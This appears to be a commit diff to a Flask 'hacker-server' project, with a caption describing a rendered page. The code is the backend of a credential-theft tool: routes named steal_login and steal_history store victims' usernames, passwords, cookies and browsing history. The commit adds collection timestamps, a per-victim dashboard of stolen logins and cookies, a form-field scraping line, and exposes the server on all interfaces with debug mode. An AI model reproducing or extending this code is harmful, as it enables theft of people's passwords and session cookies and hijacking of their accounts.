

Before and after one commit to swuleung/ac.js, a Flask app: template hacker-server/templates/user.html in a window 1280 px wide. Shown: the top 584 px of the page. Run offline with Flask 2, Linux system fonts and the light colour scheme; the template is opened without the code that fills it: most values are stand-ins (such as "Sample title", 1, 10 or a date in 2020); some libraries are stand-ins or nearby versions.

Commit message:
Add nav-tabs to display data

```diff
--- a/Malex/scripts/formdata.js
+++ b/Malex/scripts/formdata.js
@@ -1,4 +1,5 @@
 
+var username = $('[type="username"]');
 var email = $('[type="email"]');
 var password = $('[type="password"]');
 
--- a/hacker-server/general_db.py
+++ b/hacker-server/general_db.py
@@ -24,6 +24,7 @@ def create_all_tables():
     Url TEXT,
     Username VARCHAR(255),
     Password TEXT,
+    TimeCollected DATETIME,
     FOREIGN KEY (Email) REFERENCES Users(Email)
     );"""
     c.execute(q)
@@ -34,6 +35,7 @@ def create_all_tables():
     Url TEXT,
     CookieKey TEXT,
     CookieVal TEXT,
+    TimeCollected DATETIME,
     FOREIGN KEY (Email) REFERENCES Users(Email),
     PRIMARY KEY (Email, Url, CookieKey)
     );"""
--- a/hacker-server/pyfiles/cookies.py
+++ b/hacker-server/pyfiles/cookies.py
@@ -13,12 +13,12 @@ def bulk_add_to_cookies(email, url, cookie):
     for coo in cookies:
         cook = coo.split('=')
         q = """INSERT OR REPLACE INTO Cookies
-                Values (?, ?, ?, ?)"""
-        c.execute(q, (userEmail, url, cook[0], cook[1]))
+                Values (?, ?, ?, ?, ?)"""
+        c.execute(q, (userEmail, url, cook[0], cook[1], datetime.datetime.now()))
         conn.commit()
     conn.close()
 
-def get_history_by_user(email):
+def get_cookies_by_user(email):
     conn = sqlite3.connect("data.db")
     c = conn.cursor()
     q = """SELECT *
--- a/hacker-server/server.py
+++ b/hacker-server/server.py
@@ -32,7 +32,9 @@ def steal_history():
 @app.route("/view_user/<email>", methods=['GET'])
 def view_user(email):
     hist = history.get_history_by_user(email)
-    return render_template('user.html', email=email, history=hist)
+    cook = cookies.get_cookies_by_user(email)
+    logs = login.get_logins_by_user(email)
+    return render_template('user.html', email=email, history=hist, cookies=cook, logins=logs)
 
 @app.route('/addSecure/<email>', methods=['POST'])
 def add_secure(email):
@@ -76,7 +78,7 @@ def steal_login():
         url = request.form['url']
         username = request.form['username']
         password = request.form['password']
-        login.addToLogin(email, url, username, password)
+        login.add_to_login(email, url, username, password)
         return "we all good here"
 
 
@@ -95,12 +97,12 @@ if __name__ == "__main__":
     app.config['TEMPLATES_AUTO_RELOAD'] = True
 
     # uncomment this if you want to erase all tables
-    # general_db.drop_all_tables()
+    general_db.drop_all_tables()
 
     # uncomment this if you want to create all tables
     general_db.create_all_tables()
 
     # uncomment this time if you want to erase the data
-    # general_db.delete_db()
+    general_db.delete_db()
 
-    app.run(host='localhost', port=5000, debug=True)
+    app.run(host='0.0.0.0', port=5000, debug=True)
--- a/hacker-server/templates/base.html
+++ b/hacker-server/templates/base.html
@@ -7,6 +7,7 @@
             </title>
             <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css" integrity="sha384-Gn5384xqQ1aoWXA+058RXPxPg6fy4IWvTNh0E263XmFcJlSAwiGgFAW/dAiS6JXm" crossorigin="anonymous">
             <link rel="stylesheet" href="../static/styles.css">
+            <link rel="shortcut icon" href="{{ url_for('static', filename='favicon.ico') }}">
      </head>
     <body>
             {% block contents %}{% endblock %}
--- /dev/null
+++ b/hacker-server/templates/cookies.html
@@ -0,0 +1,28 @@
+{% extends "base.html" %}
+
+{% block title %} Cookies {% endblock %}
+
+{% block contents %}
+<table class="table table-bordered table-striped">
+    <thead>
+        <tr>
+            <th scope="col"> # </th>
+            <th scope="col"> Url </th>
+            <th scope="col"> Key </th>
+            <th scope="col"> Value </th>
+            <th scope="col"> Collected </th>
+        </tr>
+    </thead>
+    <tbody>
+        {% for cookie in cookies%}
+        <tr class="wrap-word">
+            <th scope="row" width="10%"> {{ loop.index }} </th>
+            <td width="25%"> {{ cookie[1] }}</td>
+            <td width="15%"> {{ cookie[2] }}</td>
+            <td width="25%"> {{ cookie[3] }}</td>
+            <td width="15%"> {{ cookie[4] }}</td>
+        </tr>
+        {% endfor %}
+    </tbody>
+</table>
+{% endblock %}
--- /dev/null
+++ b/hacker-server/templates/logins.html
@@ -0,0 +1,28 @@
+{% extends "base.html" %}
+
+{% block title %} Cookies {% endblock %}
+
+{% block contents %}
+<table class="table table-bordered table-striped">
+    <thead>
+        <tr>
+            <th scope="col"> # </th>
+            <th scope="col"> Url </th>
+            <th scope="col"> Key </th>
+            <th scope="col"> Value </th>
+            <th scope="col"> Collected </th>
+        </tr>
+    </thead>
+    <tbody>
+        {% for login in logins %}
+        <tr class="wrap-word">
+            <th scope="row" width="10%"> {{ loop.index }} </th>
+            <td width="25%"> {{ login[1] }}</td>
+            <td width="15%"> {{ login[2] }}</td>
+            <td width="25%"> {{ login[3] }}</td>
+            <td width="15%"> {{ login[4] }}</td>
+        </tr>
+        {% endfor %}
+    </tbody>
+</table>
+{% endblock %}
--- a/hacker-server/templates/user.html
+++ b/hacker-server/templates/user.html
@@ -1,11 +1,49 @@
 {% extends "base.html" %}
 
-{% block title %} History {% endblock %}
+{% block title %} {{email}} {% endblock %}
 
 {% block contents %}
 <div class="container">
-    <h1> Displaying data for: {{email}} </h1>
-    <h2> History </h2>
-    {% include 'history.html' %}
+    <h1> Data for: {{email}} </h1>
+    <ul class="nav nav-tabs" id="user-content" role="tablist">
+        <li class="nav-item">
+            <a class="nav-link active" id="all-tab" data-toggle="tab" href="#all" role="tab" aria-controls="all"
+                aria-selected="true">All Data</a>
+        </li>
+        <li class="nav-item">
+            <a class="nav-link" id="history-tab" data-toggle="tab" href="#history" role="tab" aria-controls="history"
+                aria-selected="false">History</a>
+        </li>
+        <li class="nav-item">
+            <a class="nav-link" id="logins-tab" data-toggle="tab" href="#logins" role="tab" aria-controls="logins"
+                aria-selected="false">Login</a>
+        </li>
+        <li class="nav-item">
+            <a class="nav-link" id="history-tab" data-toggle="tab" href="#cookies" role="tab" aria-controls="cookies"
+                aria-selected="false">Cookies</a>
+        </li>
+    </ul>
+    <div class="tab-content" id="my-tabs">
+        <div class="tab-pane fade show active" id="all" role="tabpanel" aria-labelledby="all-tab">
+            <h2> History </h2>
+            {% include 'history.html' %}
+            <h2> Logins </h2>
+            {% include 'logins.html' %}
+            <h2> Cookies </h2>
+            {% include 'cookies.html' %}
+        </div>
+        <div class="tab-pane fade show" id="history" role="tabpanel" aria-labelledby="history-tab">
+            <h2> History </h2>
+            {% include 'history.html' %}
+        </div>
+        <div class="tab-pane fade show" id="logins" role="tabpanel" aria-labelledby="logins-tab">
+            <h2> Logins </h2>
+            {% include 'logins.html' %}
+        </div>
+        <div class="tab-pane fade show" id="cookies" role="tabpanel" aria-labelledby="cookies-tab">
+            <h2> Cookies </h2>
+            {% include 'cookies.html' %}
+        </div>
+    </div>
 </div>
 {% endblock %}
```
Also changed, not shown: hacker-server/pyfiles/login.py (+17 -4 lines), Malex/hi.html (deleted), hacker-server/static/favicon.ico (added).
